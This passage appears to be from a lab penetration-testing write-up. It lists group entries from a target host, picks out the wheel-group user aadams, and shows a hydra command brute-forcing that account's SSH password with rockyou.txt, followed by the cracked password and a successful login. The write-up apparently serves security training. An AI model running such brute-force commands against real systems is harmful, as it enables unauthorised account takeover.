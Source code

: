 ```
utmp::22:
smmsp::25:smmsp
mysql::27:
rpc::32:
sshd::33:sshd
gdm::42:
shadow::43:
ftp::50:
pop::90:pop
scanner::93:
nobody::98:nobody
nogroup::99:
users::100:
console::101:
```

* Map users with their group
```
user > group

root > root
operator > floppy
mysql > mysql
gdm > gdm
aadams > wheel
bbanter > users
ccoffee > users
```

* Wheel group (https://en.wikipedia.org/wiki/Wheel_(Unix_term))
```
Modern Unix systems generally use user groups as a security protocol to control access privileges. The wheel group is a special user group used on some Unix systems to control access to the sudo command
```

The user aadams is in wheel group so I tried to brute force aadams again with rockyou.txt now.

```
hydra -s 22 -v -V -l aadams -P /usr/share/wordlists/rockyou.txt -e n -t 10 -w 30  ssh://192.168.1.100

...
[22][ssh] host: 192.168.1.100   login: aadams   password: nostradamus
...

root@BOEING:~# ssh aadams@192.168.1.100
aadams@192.168.1.100's password: 
Linux 2.6.16.
aadams@slax:~$ 
aadams@slax:~$ id
uid=1000(aadams) gid=10(wheel) groups=10(wheel)
```
